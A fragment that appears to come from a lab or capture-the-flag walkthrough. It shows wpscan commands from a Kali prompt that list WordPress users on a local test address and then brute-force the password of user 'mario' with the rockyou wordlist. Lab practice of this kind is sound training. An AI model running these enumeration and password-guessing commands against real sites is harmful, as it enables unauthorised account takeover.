 wpscan --url http://172.17.0.2/ --enumerate u

┌──(daniel㉿kali)-[~]
└─$ wpscan --url http://172.17.0.2/wordpress -U mario -P /usr/share/wordlists/rockyou.txt  
